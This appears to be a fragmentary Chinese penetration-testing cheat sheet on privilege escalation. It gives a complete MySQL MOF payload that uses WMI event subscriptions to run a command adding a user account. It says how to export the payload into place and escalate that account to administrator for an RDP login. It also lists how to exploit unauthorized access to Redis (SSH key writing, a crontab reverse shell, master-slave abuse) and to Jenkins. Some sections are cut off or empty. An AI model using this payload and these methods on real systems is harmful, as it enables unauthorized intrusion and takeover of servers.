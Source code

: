 ## 提权

### mysql两种提权方式

该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

#### Mysql mof提权

```
#pragma namespace("\\\\.\\root\\subscription")</code>
`instance of __EventFilter as $EventFilter``{``EventNamespace = "Root\\Cimv2";``Name  = "filtP2";``Query = "Select * From __InstanceModificationEvent "``"Where TargetInstance Isa \"Win32_LocalTime\" "``"And TargetInstance.Second = 5";``QueryLanguage = "WQL";``};`
`instance of ActiveScriptEventConsumer as $Consumer``{``Name = "consPCSV2";``ScriptingEngine = "JScript";``ScriptText =``"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";``};`
`instance of __FilterToConsumerBinding``{``Consumer   = $Consumer;``Filter = $EventFilter;`<code>};
```

其中的第18行的命令，上传前请自己更改。

2、执行load_file及into dumpfile把文件导出到正确的位置即可。

执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后3389连接之就ok了。

## 特殊漏洞

### Struts2-045

### Redis未授权访问

#### 产生原因

Redis  默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis  服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis  的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis  服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器

#### 利用条件和方法

条件:

a、redis服务以root账户运行<br/> b、redis无密码或弱密码进行认证<br/> c、redis监听在0.0.0.0公网上

方法:

a、通过 Redis 的 INFO 命令, 可以查看服务器相关的参数和敏感信息, 为攻击者的后续渗透做铺垫<br/> b、上传SSH公钥获得SSH登录权限<br/> c、通过crontab反弹shell<br/> d、slave主从模式利用

#### 修复

密码验证<br/> 降权运行<br/> 限制ip/修改端口

### Jenkins未授权访问

攻击者通过未授权访问进入脚本命令执行界面执行攻击指令

